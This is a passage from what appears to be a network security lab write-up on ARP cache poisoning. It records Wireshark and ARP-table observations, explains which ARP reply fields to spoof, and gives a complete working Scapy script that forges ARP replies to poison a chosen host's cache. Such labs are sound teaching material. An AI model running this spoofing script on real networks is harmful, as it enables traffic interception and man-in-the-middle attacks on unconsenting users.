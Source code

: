 ```python
if __name__ == '__main__':
    main()
```

Executing the above code on `host c` against `host B` and observing the traffic on Wireshark, I observed the following
- the first entry is a broadcast message originating from `host C` asking for the host who has `host B`'s IP address
- the second entry is a reply from `host A`

Taking a look at `host A` ARP table after the attack, it is observed that `host B`'s IP address is mapped to `host C`'s MAC address.

<br>

### ARP cache poisoning using ARP replies
When sending an ARP reply, the following are the important fields to spoof in the ARP header:
- `psrc`: this specifies where the `ARP reply` is originating from
- `pdst`: this specifies where the `ARP reply` is going to
- `op`: this specifies whether it is an `ARP request` or an `ARP reply`
- `hwdst`: this specifies the MAC Address of the host where the `ARP reply` is going to

Below are my observations during the lab exercise:
-  When `host B`'s IP is already in `host A`'s cache, `host A` updates its arp cache with the information gotten from the `ARP reply`.
-  When `host B`'s IP is not already in `host A`'s cache, nothing happens. No entry is added.

The tests were run using the below code:

```python
#!/usr/bin/env python3

import sys
from scapy.all import *

def main():
    if len(sys.argv) != 4:
        usage()
        sys.exit(2)
    psrc_ = sys.argv[1]
    pdst_ = sys.argv[2]
    hwdst_ = sys.argv[3]
    E = Ether(dst = hwdst_)
    A = ARP(psrc = psrc_, pdst = pdst_, op = 2, hwdst = hwdst_)
    sendp(E/A, verbose=0)
    print(f'sent ARP reply to {pdst_}')
    
def usage():
    print("Usage: ./arp-reply.py <src-ip> <dst-ip> <dst-mac>\
    \n\tsrc-ip: IP address of the host you want to map to your MAC address\
    \n\tdst-ip: Ip address of the host whose ARP cache you want to poison\
    \n\tdst-mac: The MAC address of the host whose ARP cache you want to poison\n")
    
    
if __name__ == '__main__':
    main()
```
